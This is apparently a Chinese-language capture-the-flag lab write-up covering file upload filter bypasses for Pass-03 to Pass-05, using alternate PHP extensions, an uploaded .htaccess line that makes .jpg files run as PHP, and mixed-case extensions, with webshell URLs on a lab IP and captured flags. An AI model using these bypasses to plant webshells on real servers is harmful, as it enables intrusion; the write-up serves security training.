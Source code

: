 例如：
```bash
pht，phpt，phtml，php3，php4，php5，php6
```

+ 参考: [文件上传限制绕过技巧](https://www.freebuf.com/articles/web/179954.html)

这里使用 `webshell.php5`

![](https://nc0.cdn.zkaq.cn/md/8461/962c993e227d8ae0e8eb268b4fb29043_30754.png)

```bash
http://59.63.200.79:8016/Pass-03/upload//webshell.php5

# flag_SiZPRmH1.txt: zkaq{lapc=@Hs1EXxqwif}
```

##  pass-04 `.htaccess`文件绕过

`.htaccess` 是 apache 用来管理目录权限的**动态文件**， 可以实现目录的**黑白名单**， **伪静态**， **默认解析器** 等。
同样，在 nginx 中也可以使用， 不过需要手动引入。

+ [Linux下nginx支持.htaccess文件实现伪静态的方法](https://cloud.tencent.com/developer/article/1389181)

当过滤规则无法绕过的时候，可以尝试优先上传一个 `.htaccess` **设置**某类**图片文件** 的**默认解释器**。

+ [.htaccess文件解析漏洞](https://blog.csdn.net/cxrpty/article/details/104358473)

```ini
AddType application/x-httpd-php .jpg
```

**1. 上传 `.htaccess`**

![](https://nc0.cdn.zkaq.cn/md/8461/32f674bb21af92be9d761443624bef34_11891.png)

**2. 上传 jpg 后缀的 php 文件**

![](https://nc0.cdn.zkaq.cn/md/8461/779723364afed82af9633a54e9df3701_39046.png)

```bash
http://59.63.200.79:8016/Pass-04/upload/webshell.jpg

# flag_x=$ioleC.txt : zkaq{lgevqWqnexX2hy-a}
```

## pass-05 后缀大小写绕过

分析源码， 黑名单后缀通过 枚举 方式列出， 但未转换为小写进行二次比较， 因此出现利用方式

![](https://nc0.cdn.zkaq.cn/md/8461/0c4d3a1a00bf66958c95442f899f10ee_84528.png)

```bash
http://59.63.200.79:8016/Pass-05/upload//webshell.pHP

# flag_Pc8u31bi.txt : zkaq{HBkYvhSTYnXLkY@1}
```
